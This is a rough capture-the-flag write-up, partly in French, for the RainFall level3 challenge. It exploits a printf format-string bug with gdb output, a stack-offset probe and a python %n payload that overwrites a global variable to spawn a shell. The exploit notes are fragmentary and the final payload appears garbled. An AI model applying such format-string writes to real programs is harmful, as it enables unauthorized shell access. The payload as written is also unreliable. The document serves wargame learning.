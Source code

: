 observation:
- fgets
- m et shell
- printf (argument = )
vulnerabilite:
- printf mal utilise





Using a disassembler we see that `fgets` is used so we can't exploit it to do a buffer overflow, but `printf` is used with only our buffer as argument.
When printf only receive a format string it will use address on the stack, so we could print value from the stack (%p, %x etc...) but also write on it (%n).
Format string allow us to choose which argument to use with our option so we could also use a choosen address on the stack after calculating an offset. 
We also see that a global variable `m` is compared with 64 and in case of equality open a shell.
So using printf vulnerability we will try to overwrite m value to enter te condition that open a shell.

Using gdb we can see m address when its content is stored in eax and compared with 64.

```Shell
(gdb) disas v
[...]
 0x080484da <+54>:    mov    0x804988c,%eax
 0x080484df <+59>:    cmp    $0x40,%eax
[...]

 ```

Using this format string `AAAA %p %p %p %p` we will print the content of the four stack address that printf will use as argument and observe that the fourth is our buffer, because it's content is fill of 0x41 which is 'A' value in ASCII, the first four character of our buffer.

```Shell
level3@RainFall:~$ ./level3
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141

```

72 * A [addr]%n 1*A [addr + 4]%n

int a;
printf("123%n", &a)


1. offset

2. buffer = addresse + valeur + %offset$n

3. %n

4. format string


python -c 'print("A" * 64 + "%\x8c\x98\x04\x08$n")' > /tmp/input3

cat /tmp/input3 - | ./level3
